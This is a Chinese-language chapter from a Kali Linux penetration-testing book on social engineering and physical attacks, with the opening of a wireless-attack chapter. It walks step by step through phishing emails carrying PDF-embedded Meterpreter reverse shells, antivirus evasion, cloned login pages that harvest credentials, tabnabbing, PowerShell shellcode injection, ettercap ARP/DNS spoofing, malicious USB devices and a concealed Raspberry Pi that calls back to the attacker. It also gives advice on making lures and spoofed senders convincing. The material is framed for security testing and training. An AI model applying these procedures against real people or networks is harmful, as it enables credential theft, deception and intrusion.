# 第三章：第 2 部分。*交付阶段*

*物理攻击和社会工程*

*利用无线通信*

*对基于 Web 的应用程序进行侦察和利用*

*利用远程访问通信*

*客户端利用*

*安装 Kali Linux*

# 第七章：物理攻击和社会工程

社会工程，特别是与对目标系统的物理访问相结合时，是用于渗透测试或实际攻击的最成功的攻击向量。

作为支持杀链的攻击路径，社会工程侧重于攻击的非技术方面，利用人们的信任和天生的乐于助人来欺骗和操纵他们，使其妥协网络及其资源。

社会工程攻击的成功依赖于两个关键因素：

+   在侦察阶段获得的知识。攻击者必须了解与目标相关的名称和用户名；更重要的是，攻击者必须了解网络用户的关注点。

+   了解如何应用这些知识来说服潜在目标通过点击链接或执行程序来激活攻击。例如，如果目标公司刚刚与以前的竞争对手合并，员工的工作安全可能是最关注的问题。因此，与该主题相关的电子邮件或文件很可能会被目标个人打开。

Kali Linux 提供了几种工具和框架，如果以社会工程为借口影响受害者打开文件或执行某些操作，成功的几率会增加。例如脚本攻击（包括 Visual Basic、WMI 和 PowerShell 脚本）、由 Metasploit Framework 创建的可执行文件，以及**BeEF**（**浏览器利用框架**）。

在本章中，我们将专注于社会工程工具包或 SEToolkit。使用这些工具的技术将作为使用社会工程从其他工具部署攻击的模型。

在本章结束时，您将学会如何使用 SEToolkit 执行以下操作：

+   使用鱼叉式网络钓鱼和 Java 小程序攻击获取远程 shell

+   使用凭证收割者攻击收集用户名和密码

+   启动 tabnabbing 和 webjacking 攻击

+   使用多攻击网络方法

+   使用 PowerShell 的字母数字 shellcode 注入攻击

为支持 SET 的社会工程攻击，将描述以下一般实施做法：

+   隐藏恶意可执行文件和混淆攻击者的 URL

+   通过 DNS 重定向升级攻击

您还将学习如何创建和实施基于 Raspberry PI 微型计算机的敌对物理设备。

# 社会工程工具包

Social-Engineer Toolkit（SEToolkit）是由 David Kennedy（ReL1K）创建和编写的，并由一群活跃的合作者维护（[www.social-engineer.org](http://www.social-engineer.org)）。它是一个开源的 Python 驱动框架，专门设计用于促进社会工程攻击。

SEToolkit 的一个重要优势是它与 Metasploit Framework 的互连性，提供了所需的利用载荷、用于绕过防病毒的加密，以及当被攻击系统向攻击者发送 shell 时连接到受损系统的监听器模块。

在启动 SEToolkit 之前，您可能希望对配置文件进行一些修改。

社会工程工具包预先配置了常见的默认设置；但是，这些设置可以被修改以适应特定的攻击场景。在 Kali 中，配置文件是`/usr/share/set/config/set_config`。修改此文件允许您控制以下内容：

+   Metasploit 变量，包括位置、要使用的数据库、有效负载应该被编码的次数以及一旦建立了 meterpreter 会话后自动运行的命令。

+   **Ettercap**和**dsniff**开关用于促进 DNS 重定向攻击和捕获认证凭据。通过控制 DNS，攻击者可以自动将一群人引导到使用`setoolkit`创建的虚假网站。

+   配置`sendmail`或其他邮件程序以在需要伪造电子邮件地址的攻击中使用；这允许社会工程师通过使用看似来自可信来源的电子邮件地址（例如同一公司的高级经理）来增强攻击的可信度。

+   要使用的电子邮件提供程序，包括 Gmail、Hotmail 和 Yahoo。

+   使用伪造的发布者创建自签名的 Java 小程序，激活 SSL 证书，并窃取数字签名。

+   其他变量，如 IP 地址、端口分配和编码参数。

要在 Kali 发行版中打开社会工程工具包（SET），请转到**应用程序** | **Kali Linux** | **利用工具** | **社会工程工具包** | **setoolkit**，或在 shell 提示符下输入`setoolkit`。将显示主菜单，如下截图所示：


如果选择“1）社会工程攻击”，将显示以下子菜单：


以下是对社会工程攻击的简要解释：

+   `鱼叉式网络钓鱼攻击向量`允许攻击者创建电子邮件消息并将其发送给有附加攻击的目标受害者。

+   `网站攻击向量`利用多种基于 Web 的攻击，包括以下内容：

+   `Java 小程序攻击方法`伪造 Java 证书并传递基于 Metasploit 的有效负载。这是最成功的攻击之一，对 Windows、Linux 或 OSX 目标有效。

+   `Metasploit 浏览器利用方法`使用 iFrame 攻击传递 Metasploit 有效负载。

+   `凭证收割者攻击方法`克隆一个网站并自动重写 POST 参数，以允许攻击者拦截和收割用户凭证；然后在收割完成后将受害者重定向回原始网站。

+   `Tabnabbing 攻击方法`用克隆页面替换非活动浏览器选项卡上的信息，该页面链接回攻击者。当受害者登录时，凭证将发送给攻击者。

+   `网络劫持攻击方法`利用 iFrame 替换使突出显示的 URL 链接看起来合法；但是，当它被点击时，会弹出一个窗口，然后被恶意链接替换。

+   `多攻击 Web 方法`允许攻击者选择一次性发动的几种攻击，包括`Java 小程序攻击方法`、`Metasploit 浏览器利用方法`、`凭证收割者攻击方法`、`Tabnabbing 攻击方法`和`中间人攻击方法`。

+   `传染性媒体生成器`创建一个`autorun.inf`文件和 Metasploit 有效负载。一旦刻录或复制到 USB 设备或物理媒体（CD 或 DVD）并插入目标系统，它将触发自动运行（如果自动运行已启用）并 compromise 系统。

+   `创建有效负载和监听器`模块是一种快速的菜单驱动方法，用于创建 Metasploit 有效负载。攻击者必须使用单独的社会工程攻击来说服目标启动它。

+   `MassMailer 攻击`允许攻击者向单个电子邮件地址或收件人列表发送多个定制的电子邮件。

+   `基于 Arduino 的攻击向量`程序化 Arduino 设备，如 Teensy。因为这些设备在连接到物理 Windows 系统时注册为 USB 键盘，它们可以绕过基于禁用自动运行或其他端点保护的安全性。

+   `短信欺骗攻击向量`允许攻击者向某人的移动设备发送精心制作的短信服务文本，并伪装消息的来源。

+   `无线接入点攻击向量`将在攻击者系统上创建一个虚假的无线接入点和 DHCP 服务器，并将所有 DNS 查询重定向到攻击者。攻击者随后可以发动各种攻击，如 Java 小程序攻击或凭证窃取攻击。

+   `QR 码生成器攻击向量`创建一个与攻击相关的定义 URL 的 QR 码。

+   `Powershell 攻击向量`允许攻击者创建依赖于 PowerShell 的攻击，PowerShell 是一种命令行 shell 和脚本语言，适用于所有 Windows Vista 及更高版本。

+   `第三方模块`允许攻击者使用**远程管理工具 Tommy Edition**（**RATTE**），作为 Java 小程序攻击的一部分或作为独立有效载荷。RATTE 是一个文本菜单驱动的远程访问工具。

SEToolkit 还提供了`快速跟踪渗透测试`的菜单项，该菜单项可以快速访问一些支持 SQL 数据库的暴力识别和密码破解的专门工具，以及一些基于 Python、SCCM 攻击向量、戴尔计算机 DRAC/机箱利用、用户枚举和 PSEXEC PowerShell 注入的定制利用。

菜单还提供了更新 Metasploit Framework、SEToolkit 和 SEToolkit 配置的选项。但是，应避免使用这些附加选项，因为它们在 Kali 上得到的支持不完整，并且可能会导致依赖冲突。

作为 SEToolkit 优势的一个初始示例，我们将看到如何使用它来获得远程 shell——从受损系统到攻击者系统的连接。

## 网络钓鱼攻击

网络钓鱼是针对大量受害者进行的电子邮件欺诈攻击，比如已知的美国互联网用户名单。目标通常没有联系，电子邮件也不试图吸引任何特定个人。相反，它包含一个普遍感兴趣的项目（例如，“点击这里购买便宜的药物”）和一个恶意链接或附件。攻击者打赌至少有一些人会点击链接或附件来发起攻击。

另一方面，钓鱼攻击是一种高度特定的网络钓鱼攻击形式——通过以特定方式制作电子邮件消息，攻击者希望吸引特定受众的注意。例如，如果攻击者知道销售部门使用特定应用程序来管理其客户关系，他可能伪装成应用程序供应商发送一封电子邮件，主题是“<应用程序>的紧急修复-点击链接下载”。

### 提示

网络钓鱼攻击的成功率通常低于 5%；然而，网络钓鱼攻击的成功率范围为 40%至 80%。这就是为什么侦察阶段的信息对于这种类型的攻击的成功至关重要。

平均而言，只需要向目标发送十到十五封电子邮件，就至少会有一封被点击。

在发动攻击之前，请确保 Kali 上安装了`sendmail`（`apt-get install sendmail`）并将`set_config`文件从`SENDMAIL=OFF`更改为`SENDMAIL=ON`。

要发动攻击，请从主 SEToolkit 菜单中选择`社会工程攻击`，然后从子菜单中选择`网络钓鱼攻击向量`。这将启动攻击的开始选项，如下截图所示：


选择`1`执行大规模电子邮件攻击；然后将显示攻击有效负载列表，如下截图所示：


最有效的攻击之一是`15) Adobe PDF Embedded EXE Social Engineering`；然而，所选择的攻击将取决于攻击者在侦察阶段获得的可用目标的知识。

在提示要使用您自己的 PDF 还是内置的空白 PDF 进行攻击时，选择内置的空白有效载荷的选项`2`，如下面的屏幕截图所示。然后将提示您选择有效载荷。


通过在多个网络上进行测试，我们发现选项`1`和`2`（`Windows Reverse TCP shell`和`Windows Meterpreter Reverse TCP`）是最可靠的有效载荷。在本示例中，我们将选择`Windows Meterpreter Reverse TCP`——当打开 PDF 时，它将执行一个反向 shell 返回到攻击系统。

在隐蔽性比可靠性更重要的情况下，`Windows Meterpreter Reverse HTTPS`是最佳选择。

SEToolkit 将提示输入有效载荷侦听器（攻击者的 IP 地址）和侦听端口，默认端口为`443`。

下一个菜单提示更改 PDF 文件的文件名；默认名称为`moo.pdf`，如下面的屏幕截图所示。



默认名称不太可能吸引潜在受害者打开文件；此外，它可能会被客户端安全识别。出于这些原因，文件名应更改。名称应反映被攻击的目标受众。例如，如果您的目标是财务组，给 PDF 文件一个标题，比如税法修正案。

现在，您将被提供攻击单个电子邮件地址或群发邮件的选项（例如，目标公司的员工列表或公司内的特定群体）。本示例选择了选项`1`。

SEToolkit 然后会提示您使用预定义模板或制作一次性电子邮件模板。如果您选择预定义模板，将提供以下选项：


有效的社会工程攻击是为目标而制定的；因此，选择选项`2`，`一次性使用电子邮件模板`，以创建一次性使用电子邮件模板，如下面的屏幕截图所示：


您将被提供使用您自己的 Gmail 帐户发动攻击（`1`）或使用您自己的服务器或开放中继（`2`）的选项。如果您使用 Gmail 帐户，攻击很可能会失败，您将收到以下消息：

```
[!] Unable to deliver email. Printing exceptions message
below, this is most likely due to an illegal attachment. If using GMAIL they inspect PDFs and it is most likely getting caught. 

```

Gmail 检查出站电子邮件中的恶意文件，并且非常有效地识别 SEToolkit 和 Metasploit Framework 生成的有效载荷。如果您必须使用 GMail 发送有效载荷，请使用`Veil-Evasion`对其进行编码。

建议您使用`sendmail`选项发送可执行文件；此外，它允许您伪造电子邮件的来源，使其看起来好像来自可信任的来源。

目标将收到以下电子邮件消息：


为了确保电子邮件的有效性，攻击者应该注意以下几点：

+   内容应提供“胡萝卜”（新服务器将更快，具有改进的防病毒功能）和“棍棒”（您必须在访问电子邮件之前进行的更改）。大多数人对立即行动的呼吁做出反应，特别是当它影响到他们时。

+   在先前给出的示例中，附加的文档标题为`template.doc`。在实际情况下，这将更改为`Email instructions.doc`。

+   确保您的拼写和语法正确，并且消息的语气与内容相匹配。

+   发送电子邮件的个人的标题应与内容相匹配。如果目标组织很小，您可能需要伪造一个真实个人的名字，并将电子邮件发送给一个通常不与该人互动的小组。

+   包括电话号码 - 这使得电子邮件看起来更“正式”，并且有各种方法可以使用商业 VoIP 解决方案获得带有本地区号的临时电话号码。

一旦攻击邮件发送给目标，成功激活（接收者启动可执行文件）将在攻击者的系统上创建一个反向 Meterpreter 隧道。然后，攻击者将利用 Meterpreter 和其他工具进行典型的后渗透活动。

## 使用网站攻击向量 - Java 小程序攻击方法

`Java 小程序攻击方法`使用感染的 Java 小程序将恶意应用加载到目标系统上。许多攻击者青睐这种攻击，因为它非常可靠，并且对 Windows、Linux 和 Mac OS X 系统都有效。

要发动攻击，打开 SEToolkit 并从主菜单中选择选项`2) 网站攻击向量`。然后选择选项`1) Java 小程序攻击方法`，启动初始菜单，如下截图所示：


网页模板的选项包括`Java Required`、`Gmail`、`Google`、`Facebook`、`Twitter`和`Yahoo`。如下截图所示的**Java Required**页面通常很有效，因为它直接提示用户在继续之前更新重要的软件。


您还可以选择克隆现有网站，比如目标公司的网站。

在做出选择后，攻击者将被提示确定是否使用端口/NAT 转发，并提供攻击机器的 IP 地址进行反向连接，如下截图所示：


### 提示

SEToolkit 对文字换行处理不佳，通常输入的响应会回卷并覆盖命令行的一部分。

在提供所需的 URL 后，SEToolkit 将开始网站克隆过程，如下截图所示。完成后，应用程序将开始生成有效载荷和支持文件（`.jar`存档和克隆的`index.html`文件）。


下一阶段包括有效载荷的选择。如果隐蔽特别重要，使用选项`17`选择使用`veil`编码的可执行文件，如下截图所示：



选择编码选项以绕过目标系统上的本地防病毒软件；其中最有效的是第四个选项`Backdoored Executable`，如下截图所示：


该应用程序将提示输入监听端口，然后开始在受害者的计算机上生成常用端口（`25`、`53`、`80`、`443`等）的代码，如下截图所示：


现在是社会工程学的步骤 - 攻击者必须说服目标人员连接到监听系统的 IP 地址。如果目标进入该系统，他们将被引导到监听器上托管的克隆站点。

该网站将向目标人员显示安全警告，如下截图所示，指示需要执行应用程序才能访问该网站。


如果用户选择执行该应用程序，将在他们的计算机和攻击者的计算机之间形成一个反向 shell（取决于所选的有效负载）。

所呈现的两种攻击展示了 SEToolkit 用于使用反向 shell 或类似有效载荷控制目标计算机的不同方法。攻击者可以通过多种方式扩展控制，例如使用 VNC 有效载荷或放置 RATTE。

然而，这些攻击是具有侵入性的 - 反向 shell 可能会触发防火墙的出站警报，因为它连接到攻击者的机器。更重要的是，有效载荷可能被反向工程化以识别有关攻击者的信息。

最后，攻击的目标可能不是立即妥协；相反，攻击者可能希望收集用户凭证以支持以后的攻击，或在互联网上的多个地方重复使用凭证。因此，让我们来看一下凭证收割攻击。

## 使用网站攻击向量 - 凭证收割者攻击方法

凭证通常是用户名和密码，可以让一个人访问网络、计算系统和数据。攻击者可以间接使用这些信息（通过登录受害者的 Gmail 帐户并发送电子邮件来促成对受害者信任连接的攻击），或直接针对用户的帐户。鉴于凭证的广泛重复使用，这种攻击尤其相关 - 用户通常在多个地方重复使用密码。

特别珍贵的是具有特权访问权限的人的凭证，例如系统管理员或数据库管理员，这可以让攻击者访问多个帐户和数据存储库。

SEToolkit 的凭证收割攻击使用克隆站点来收集凭证。

要发动这种攻击，从主菜单中选择`网站攻击向量`，然后选择`凭证收割者攻击方法`。在这个例子中，我们将按照菜单选择来克隆一个网站，比如 Facebook。

再次，目标 IP 地址必须发送给预定目标。当目标点击链接或输入 IP 地址时，他们将看到一个类似于 Facebook 常规登录页面的克隆页面，并被提示输入他们的用户名和密码。

完成后，用户将被重定向到常规的 Facebook 网站，在那里他们将登录到他们的帐户。

在后台，他们的访问凭证将被收集并转发给攻击者。他们将在监听窗口中看到以下条目：


当攻击者收集完凭证后，输入*CTRL* + *C* 将在`/SET/reports`目录中以 XML 和 HTML 格式生成两份报告。

类似的攻击选项是`Web Jacking Attack`。当受害者打开攻击者的链接时，他们将看到一个页面，通知他们选择的页面已经移动，如下面的屏幕截图所示：


当用户点击链接前往新位置时，他们将看到一个看起来像预期页面的克隆页面，如下面的屏幕截图所示；同样，页面将收割他们的登录凭证。


### 注意

请注意，URL 栏中的地址不是 Google 的有效地址；大多数用户如果能看到这个地址，就会意识到有问题。成功的利用需要攻击者准备好一个合适的借口或故事，使受害者接受异常的 URL。例如，向一个非技术经理的目标群体发送电子邮件，宣布“本地 Google 邮件站现在由 IT 托管，以减少邮件系统中的延迟”。

凭据收割攻击是评估企业网络安全的绝佳工具。要有效，组织必须首先培训所有员工如何识别和应对钓鱼攻击。大约两周后，发送一封包含一些明显错误（公司 CEO 的错误姓名或包含错误地址的地址块）和一个收集凭据的程序链接的公司范围内的电子邮件。计算回复其凭据的收件人的百分比，然后调整培训计划以减少这一百分比。

## 使用网站攻击向量 - Tabnabbing 攻击方法

Tabnabbing 通过在浏览器的一个打开标签中加载一个假页面来利用用户的信任。通过冒充 Gmail、Facebook 或任何其他*发布*数据的网站的页面（通常是用户名和密码），Tabnabbing 攻击可以收集受害者的凭据。社会工程工具包调用了我们之前描述的凭据收割攻击。

要发动这次攻击，从控制台提示中启动社会工程工具包，然后选择`1) 社会工程攻击`。在下一个菜单中，选择`2) 网站攻击向量`。通过选择`4) Tabnabbing 攻击方法`来发动 Tabnabbing 攻击。

攻击发动时，您将被提示三个选项来生成用于收集凭据的假网站。攻击者可以允许`setoolkit`导入预定义的网站应用程序列表，克隆网站（如 Gmail），或导入他们自己的网站。在这个例子中，我们将选择`2) 网站克隆器`。

这将提示攻击者输入服务器将 POST 到的 IP 地址；这通常是攻击者系统的 IP 地址。然后攻击者将被提示输入要克隆的网站的 URL。在下图中，选择了 Gmail 的网站。

然后攻击者必须利用社会工程学来迫使受害者访问用于回传操作的 IP 地址（例如，URL 缩短）。受害者将收到一个网站正在加载的消息（因为攻击脚本在浏览器的不同标签中加载克隆的网站，如下图所示）：


然后目标将被呈现出假页面（假 IP 地址仍然可见）。如果用户输入他们的用户名和密码，数据将被发布到攻击者系统上的监听器。如下图所示，它已经捕获了用户名和密码。


## 使用网站攻击向量 - 多重攻击 Web 方法

网站攻击向量的“hail Mary”攻击是`多重攻击 Web 方法`，允许攻击者一次实施多种不同的攻击。默认情况下，所有攻击都被禁用，攻击者选择要针对受害者运行的攻击，如下图所示：


如果您不确定哪些攻击对目标组织有效，这是一个有效的选择；选择一个员工，确定成功的攻击，然后对其他员工重复使用这些攻击。

# 使用 PowerShell 字母数字 shellcode 注入攻击

社会工程工具包还包括基于 PowerShell 的更有效攻击，这在发布 Microsoft Vista 后的所有 Microsoft 操作系统上都可用。因为 PowerShell shellcode 可以轻松注入到目标的物理内存中，使用这个向量的攻击不会触发反病毒警报。

要使用`setoolkit`发动 PowerShell 注入攻击，从主菜单中选择`1) 社会工程攻击`。然后从下一个菜单中选择`10) Powershell 攻击向量`。

这将给攻击者四种攻击类型的选择；在这个例子中，选择`1`来调用`PowerShell 字母数字 shellcode 注入器`。

这将设置攻击参数，并提示攻击者输入载荷监听器的 IP 地址，通常是攻击者的 IP 地址。输入后，程序将创建利用代码并启动本地监听器。

启动攻击的 PowerShell shellcode 存储在`/root/.set/reports/powershell/x86_powershell_injection.txt`中。

当攻击者说服受害者在命令提示符上复制`x86_powershell_injection.txt`的内容，并执行代码时，社会工程攻击的一部分就发生了，如下截图所示。


如下截图所示，执行 shellcode 并没有在目标系统上触发反病毒警报。相反，当代码执行时，它在攻击系统上打开了一个 meterpreter 会话，并允许攻击者与远程系统建立交互式 shell。


# 隐藏可执行文件并混淆攻击者的 URL

如前面的例子所示，发动社会工程攻击的成功有两个关键。第一个是获取使其生效所需的信息——用户名、业务信息以及有关网络、系统和应用程序的支持细节。

然而，大部分工作重点放在第二个方面上——精心设计攻击，诱使目标打开可执行文件或点击链接。

几种攻击会生成需要受害者执行才能成功的模块。不幸的是，用户越来越警惕执行未知软件。然而，有一些方法可以增加攻击成功执行的可能性，包括以下方法：

+   从受害者已知和信任的系统发起攻击，或者欺骗攻击源。如果攻击似乎来自帮助台或 IT 支持，并声称是“紧急软件更新”，那么它很可能会被执行。

+   将可执行文件重命名为类似于受信任软件的名称，比如“Java 更新”。

+   将恶意载荷嵌入到诸如 PDF 文件之类的良性文件中，使用 Metasploit 的`adobe_pdf_embedded_exe_nojs`攻击之类的攻击。可执行文件也可以绑定到 Microsoft Office 文件、MSI 安装文件或配置为在桌面上静默运行的 BAT 文件。

+   让用户点击一个链接，下载恶意可执行文件。

由于 SEToolkit 使用攻击者的 URL 作为其攻击的目的地，关键的成功因素是确保攻击者的 URL 对受害者是可信的。有几种技术可以实现这一点，包括以下方法：

+   使用像[goo.gl](http://goo.gl)或[tinyurl.com](http://tinyurl.com)这样的服务缩短 URL。缩短的 URL 在 Twitter 等社交媒体中很常见，受害者很少在点击此类链接时采取预防措施。

+   在社交媒体网站上输入链接，如 Facebook 或 LinkedIn；该网站将创建自己的链接来替换你的链接，并附上目标页面的图片。然后，删除你输入的链接，只留下新的社交媒体链接。

+   在 LinkedIn 或 Facebook 上创建一个假的网页——作为攻击者，你控制内容，并可以创建一个引人注目的故事，驱使成员点击链接或下载可执行文件。一个精心设计的页面不仅会针对员工，还会针对供应商、合作伙伴和他们的客户，最大程度地提高社会工程攻击的成功率。

+   将链接嵌入到诸如 PowerPoint 之类的文件中。

要在 PowerPoint 中嵌入链接，启动它并将扩展名保存为`.pps`，创建一个幻灯片放映。给演示文稿一个对目标人感兴趣的标题，并创建一些通用内容文件。在首页，插入一个文本框，并将框拖动到覆盖该幻灯片的整个表面。单击**插入**，然后选择**操作**选项卡。在对话框中，单击**超链接**单选按钮，然后从下拉菜单中选择**URL**。输入用于发动攻击的 URL，如下面的屏幕截图所示：


文件打开后，它将作为全屏幻灯片放映。因为攻击是通过鼠标悬停启动的，用户在尝试关闭文档时将启动攻击。

# 使用 DNS 重定向升级攻击

如果攻击者或渗透测试人员已经攻破了内部网络上的主机，他们可以使用 DNS 重定向来升级攻击。这通常被认为是一种水平攻击（它会危害大致具有相同访问权限的人）；但是，如果捕获了特权人员的凭据，它也可以垂直升级。

在这个例子中，我们将使用 ettercap 作为交换式局域网的嗅探器、拦截器和记录器。它促进了中间人攻击，但我们将使用它来发动 DNS 重定向攻击，将用户转移到我们用于社会工程攻击的网站。

要启动攻击，我们必须首先修改位于`/etc/ettercap/etter.dns`的 ettercap 配置文件，将查询重定向到我们的恶意站点。在配置文件中找到使用 Microsoft 站点的示例；复制相同的细节以将目标站点请求重定向到恶意 IP 地址，如下面的屏幕截图所示：


通过在命令提示符下键入`ettercap –G`以图形模式启动 ettercap。从**嗅探**选项卡中，从下拉菜单中选择**统一**嗅探，如下面的屏幕截图所示：


在提示选择网络接口时，选择内部网络的**eth0**（如您所见，ettercap 还将在选择不同接口时支持无线攻击）。您会看到选项卡式菜单发生变化，给您更多选项。

从**主机**选项卡中，从下拉菜单中选择**扫描主机**。它将进行快速扫描，然后报告“x 个主机已添加到主机列表”。从**主机**选项卡中，选择**主机列表**以查看可能的目标系统列表，如下面的屏幕截图所示：


突出显示您希望定位的已识别系统（例如，位于交换式局域网相同段上的所有主机），并选择**添加到目标 1**选项卡。

完成后，选择**插件**选项卡，这将为您提供可供使用的 ettercap 插件列表。选择**ec_dns_spoof.so**插件，如下面的屏幕截图所示：


要发动攻击，选择**Mitm**选项卡，并从下拉菜单中选择**ARP 欺骗**，如下面的屏幕截图所示。ettercap 将在所选系统上毒化地址解析协议表或缓存。


当选择 ARP 欺骗时，将提供可选参数。选择嗅探远程连接的参数。然后，转到**开始**选项卡，并选择开始统一嗅探。

当任何一个被攻击的系统上的用户尝试访问 Facebook 时，他们的缓存表将无法为他们提供互联网上的位置。Ettercap 将把他们的查找重定向到你在配置文件中提供的 URL，并且用户将被引导到攻击者准备的敌对网页，并且将受到诸如凭证窃取之类的攻击。

在任何时候，被攻击的人都会在他们的浏览器窗口中看到一个明显正确的 URL。

DNS 重定向可以用于促进依赖用户点击 URL 链接发起攻击的所有攻击，并且这适用于有线和无线网络。

# 物理接触和敌对设备

Kali 和 SEToolkit 还可以促进攻击，入侵者直接物理接触系统和网络。这可能是一种风险攻击，因为入侵者可能会被警觉的人发现，或者被监视设备抓住。然而，奖励可能是巨大的，因为入侵者可以 compromise 具有有价值数据的特定系统。

物理接触通常是社会工程学的直接结果，特别是在使用冒充的情况下。常见的冒充包括以下内容：

+   一个声称来自帮助台或 IT 支持的人，只需要快速打断受害者安装系统升级。

+   一个供应商去拜访客户，然后借口去和其他人交谈或去洗手间。

+   一个送货员送货。攻击者可以选择在网上购买送货员制服；然而，由于大多数人认为任何穿着全身棕色并推着装满箱子的手推车的人都是 UPS 的送货员，制服很少是社会工程学的必要条件！

+   穿着工作服的工匠，携带着他们打印出来的“工作订单”，通常被允许进入布线间和其他区域，特别是当他们声称是应建筑经理的要求而在场时。

+   穿着昂贵的西装，携带剪贴板，走得很快——员工会认为你是一个不认识的经理。在进行这种类型的渗透时，我们通常会告诉人们我们是审计员，我们的检查很少受到质疑。

敌对物理接触的目标是迅速损害选定的系统；这通常是通过在目标上安装后门或类似设备来实现的。

经典攻击之一是将 CD-ROM、DVD 或 USB 键放入系统中，并让系统使用自动播放选项安装它；然而，许多组织在整个网络上禁用了自动播放。

攻击者还可以创建“有毒诱饵”陷阱——包含邀请人点击文件并检查其内容的文件的移动设备。一些例子包括以下内容：

+   USB 键带有标签，如员工工资或医疗保险更新。

+   Metasploit 允许攻击者将一个有效载荷（如反向 shell）绑定到一个可执行文件，如屏幕保护程序。攻击者可以使用公开可用的公司图像创建一个屏幕保护程序，并将 CD 邮寄给员工，带有新的*认可的屏幕保护程序*。当用户安装该程序时，后门也被安装，并连接到攻击者。

+   如果你知道员工最近参加了一个会议，攻击者可以冒充出席的供应商，并发送给目标一封暗示这是供应商展会后续的信件。一个典型的消息将是，“如果你错过了我们的产品演示和一年免费试用，请通过点击 start.exe 查看附加的 USB 键上的幻灯片展示”。

一个有趣的变种是 SanDisk U3 USB 键，或者 Smart Drive。U3 键预装了启动软件，当插入时自动允许键直接向主机计算机写入文件或注册表信息，以帮助启动批准的程序。`u3-pwn`工具（**Kali Linux** | **维持访问** | **操作系统后门** | **u3**-**pwn**）从 SanDisk U3 中删除原始 ISO 文件，并用敌意的 Metasploit 有效负载替换，然后对其进行编码，以避免在目标系统上被检测到。

不幸的是，对这些 USB 设备的支持正在减少，它们仍然容易受到与其他 Metasploit 有效负载相同程度的检测。

一个新兴的选择是使用 Teensy——一个小型集成电路设备，插入 Windows 系统后会注册为 USB 键盘。这使得它可以绕过禁用自动运行或使用客户端反病毒软件的系统。Teensy 可以在亚马逊上购买，价格大约为 20 到 25 美元。

`setoolkit`生成了 Teensy 所需的代码，将其转变为攻击向量，如下图所示：


配置为敌意代理的 Teensy 非常强大；在对企业客户进行渗透测试时，我们的测试人员已经证明了至少有百分之百的机会能够感染每个被测试网络上的至少一个系统！

不幸的是，这些设备存在一个重大限制——它们只能执行它们被编程执行的任务，攻击者或渗透测试人员在发现后的利用能力有限。

为了弥补这一不足，攻击者现在正在使用微型计算机，比如树莓派，作为攻击向量。

## 树莓派攻击向量

树莓派是一台微型计算机——大约尺寸为 8.5 厘米 X5.5 厘米，但它装有 512MB 的 RAM，两个 USB 端口和一个由 ARM 处理器运行的 700MHz 的以 Broadcom 芯片支持的以太网端口（可以超频到 1GHz）。它不包括硬盘，而是使用 SD 卡进行数据存储。如下图所示，树莓派大约是笔的三分之二长度；它很容易隐藏在网络中（在工作站或服务器后面，放在服务器柜内，或者隐藏在数据中心的地板板下）。


要将树莓派配置为攻击向量，需要以下物品：

+   树莓派 B 型，或更新版本

+   一个 HDMI 电缆

+   一个 Micro USB 电缆和充电块

+   一个以太网电缆或迷你无线适配器

+   一张至少 8GB 的 SD 卡，Class 10

所有这些物品通常可以在线购买，总价不到 100 美元。

要配置树莓派，下载最新版本的 Kali Linux ARM 版，并从源存档中提取。如果你是从基于 Windows 的桌面配置的，那么下载并提取 Win32DiskImager（[`sourceforge.net/projects/win32diskimager/`](http://sourceforge.net/projects/win32diskimager/)）。

使用读卡器，将 SD 卡连接到基于 Windows 的计算机，并打开**Win32DiskImager**。选择 Kali 的 ARM 版本，`kali-custom-rpi.img`，该版本已经下载并提取，然后将其写入 SD 卡。这将需要一些时间。

从 Mac 或 Linux 系统刷写 SD 卡的单独说明可在 Kali 网站上找到。

将新刷好的 SD 卡插入树莓派，并将以太网电缆或无线适配器连接到 Windows 工作站，HDMI 电缆连接到显示器，Micro USB 电源线连接到电源。供电后，它将直接启动 Kali Linux。树莓派依赖外部电源，没有单独的开关；但是，Kali 仍然可以通过命令行关闭。

安装 Kali 后，确保使用 apt-get 命令进行更新。

确保尽快更改 SSH 主机密钥，因为所有的树莓派镜像都有相同的密钥。使用以下命令：

```
root@kali:~rm /etc/ssh/ssh_host_*
root@kali:~dpkg-reconfigure openssh-server
root@kali:~ service ssh restart

```

同时，确保更改默认用户名和密码。

下一步是配置树莓派定期连接回攻击者的计算机（使用静态 IP 地址或动态 DNS 寻址服务）使用**cron**。

然后，攻击者必须亲自进入目标的场所，并将树莓派连接到网络。大多数网络会自动分配设备一个 DHCP 地址，并且对这种类型的攻击有限的控制。

一旦树莓派连接回攻击者的 IP 地址，攻击者可以从远程位置使用 SSH 发出命令，对受害者的内部网络进行侦察和利用应用程序。

如果连接了无线适配器，比如 EW-7811Un，150 Mbps 无线 802.11b/g/n 纳米 USB 适配器，攻击者可以无线连接，或者使用树莓派发动无线攻击（第八章，*利用无线通信*）。

# 摘要

社会工程学是一种*黑客人类*的方法-利用人的天生信任和乐于助人的特点来攻击网络及其设备。

在本章中，我们研究了社会工程如何被用来促进旨在收集网络凭证、激活恶意软件或协助发动进一步攻击的攻击。大多数攻击依赖于社会工程工具包；然而，Kali 还有其他几个应用程序，可以使用社会工程学方法进行改进。我们还研究了如何利用物理访问，通常与社会工程学结合使用，来在目标网络上放置敌对设备。

在下一章中，我们将研究如何对无线网络进行侦察，并攻击开放网络以及受到基于 WEP、WPA 和 WPA2 加密方案保护的网络。我们还将研究无线协议的一般弱点，使其容易受到拒绝服务攻击和冒充攻击的影响。

# 第八章：利用无线通信

随着移动设备的主导地位和提供即时网络连接的需求，无线网络已成为通往互联网的无处不在的接入点。不幸的是，无线访问的便利性伴随着有效攻击的增加，导致访问和数据的窃取，以及网络资源的拒绝服务。Kali 提供了几个工具来配置和发动这些无线攻击，使组织能够提高安全性。

在本章中，我们将研究几个日常维护任务和无线攻击，包括：

+   配置 Kali 进行无线攻击

+   无线侦察

+   绕过 MAC 地址认证

+   破解 WEP 加密

+   攻击 WPA 和 WPA2

+   无线攻击和社会工程学-克隆接入点

+   拦截通信-中间人无线攻击

+   中间人无线攻击

+   **拒绝服务**（DoS）攻击无线通信

# 配置 Kali 进行无线攻击

Kali Linux 发布了几个工具，以便测试无线网络；然而，这些攻击需要进行广泛的配置才能发挥完整的效果。此外，测试人员在实施攻击或审计无线网络之前，应该具备扎实的无线网络背景。

无线安全测试中最重要的工具是无线适配器，它连接到无线接入点。它必须支持所使用的工具，特别是`aircrack-ng`套件工具；特别是，适配器的芯片组和驱动程序必须具有将无线数据包注入通信流的能力。这是对需要将特定数据包类型注入到目标和受害者之间的流量中的攻击的要求。注入的数据包可以导致拒绝服务，使攻击者能够捕获破解加密密钥或支持其他无线攻击所需的握手数据。

`aircrack-ng`网站（[www.aircrack-ng.org](http://www.aircrack-ng.org)）包含已知兼容的无线适配器列表。

